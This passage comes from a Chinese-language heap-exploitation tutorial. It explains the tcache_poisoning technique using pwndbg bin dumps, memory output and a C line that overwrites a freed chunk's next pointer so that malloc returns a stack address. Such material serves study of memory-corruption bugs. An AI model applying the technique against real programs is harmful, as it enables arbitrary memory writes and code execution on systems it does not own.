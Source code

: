 接下来如果申请两次 tcache 大小的内存的话会被分配到相同的地址。

## tcache_poisoning

Tricking malloc into returning a completely arbitrary pointer by abusing the tcache freelist.
通过滥用 tcache freelist 欺骗 malloc 返回完全任意的指针。

### 解释

这个文件通过欺骗 malloc 返回任意地址的指针（本例中为堆栈）来演示一个简单的 tcache_poisoning 攻击。这个攻击和 fastbin corruption 攻击类似。

首先得到我们希望 malloc 返回的地址。

```
pwndbg> p/x &stack_var
$2 = 0x7ffffffedd98
```

然后 `malloc(128)` 并释放掉。

此时的 bins：

```
pwndbg> bins
tcachebins
0x90 [  1]: 0x8402260 ?— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

接下来覆盖被释放的指针 a 的前 8 个字节（fd->next 指针）指向我们要控制的位置（stack_var）

``` c
a[0] = (intptr_t)&stack_var;
```

修改后：

```
pwndbg> x/10gx a
0x8402260:      0x00007ffffffedd98      0x0000000000000000
0x8402270:      0x0000000000000000      0x0000000000000000
0x8402280:      0x0000000000000000      0x0000000000000000
0x8402290:      0x0000000000000000      0x0000000000000000
0x84022a0:      0x0000000000000000      0x0000000000000000
```
